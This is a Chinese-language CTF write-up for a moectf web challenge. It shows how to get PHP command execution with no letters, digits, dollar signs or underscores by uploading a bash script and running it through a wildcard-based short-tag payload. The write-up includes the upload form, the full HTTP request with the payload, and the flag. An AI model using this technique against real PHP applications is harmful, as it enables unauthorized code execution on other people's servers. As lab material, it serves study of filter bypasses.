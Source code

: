 # Web-26-1｜这是...Webshell?_revenge

## 碎碎念

无数字字母 RCE 2.0
***
## Writeup

这下把美元符和下划线给 ban 掉了，还限制了长度，根据教程的做法，我们可以向 php 文件 POST 一个 shell 文件，保存到临时目录下，用 `. filename` 的方式执行，首先编写 html 文件上传代码，利用 Apache 搭建网站。从而模拟上传文件，以获得请求标准格式和特有标记：

```html
<!DOCTYPE html>  
<html lang="en">  
<head>  
  <meta charset="UTF-8">  
  <meta name="viewport" content="width=device-width, initial-scale=1.0">  
  <title>Document</title>  
</head>  
<body>  
  <form action="http://ip:port/" method="POST" enctype="multipart/form-data">  
    <input type="file" name="file">  
    <input type="submit" name="submit">  
  </form>  
</body>  
</html>
```

然后将其应用到我们的靶机上，添加通配符，payload 如下：

```
POST /index.php?shell=?><?=`.+/???/????????[@-[]`;?> HTTP/1.1
Host: 127.0.0.1
Content-Length: 199
Cache-Control: max-age=0
Origin: http://127.0.0.1:55013
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7YheBTd5DdLj9Zrj
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

------WebKitFormBoundary7YheBTd5DdLj9Zrj
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

#! /bin/bash
env
------WebKitFormBoundary7YheBTd5DdLj9Zrj--
```

得到 flag：`moectf{f140345d-f997-e7e4-02fa-e9008165c58f}`